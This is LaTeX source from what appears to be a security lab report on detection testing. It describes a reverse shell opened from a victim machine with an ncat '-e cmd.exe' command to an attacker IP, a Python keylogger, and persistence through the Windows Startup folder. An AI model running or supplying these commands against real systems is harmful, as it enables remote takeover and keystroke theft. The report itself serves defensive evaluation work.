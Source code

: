 \documentclass[11pt]{article}
\begin{document}
	\subsubsection{Step 2 - Remote Access}
	The objective was to establish a reverse shell from the victim to the attacker using Netcat (\texttt{ncat.exe}, part of Nmap installed via WinGet by \texttt{cmd\_commands.bat}) and assess detection by security tools.
	\textbf{Execution Procedure:}
	\begin{enumerate}
		\item On the attacker machine, a Netcat listener was started: \texttt{'nc -lvnp 12345'}.
		\item On the victim machine, \texttt{'cmd\_commands.bat'} was executed.
		\item The batch script attempted silent Nmap installation (if needed) and then initiated the reverse shell connection to the attacker's IP (\texttt{172.20.10.15}) on port \texttt{12345} using \texttt{'start /min cmd /c "ncat 172.20.10.15 12345 -e cmd.exe"'}.
		\item Success resulted in a command prompt session from the victim appearing on the attacker's listener.
		\item Commands were then executed remotely on the victim machine via the established shell.
	\end{enumerate}
	
	\subsubsection{Step 3 - Keylogger Deployment}
	A Python-based keylogger (\texttt{keylog.py}, using \texttt{pynput} to save keystrokes to \texttt{key.txt}) was deployed to assess detection. The \texttt{cmd\_commands.bat} script automated parts of this, including copying \texttt{keylog.py} to the Startup folder for persistence and hiding the script file.
	
	\subsubsection{Step 4 - Backdoor Creation and  Persistence}
	To establish persistence via the Startup folder and evaluate detection, the \texttt{cmd\_commands.bat} script copied itself into the Startup folder.
	
	
	
	\subsection{Monitoring and Data Collection Strategy}
	
\end{document}
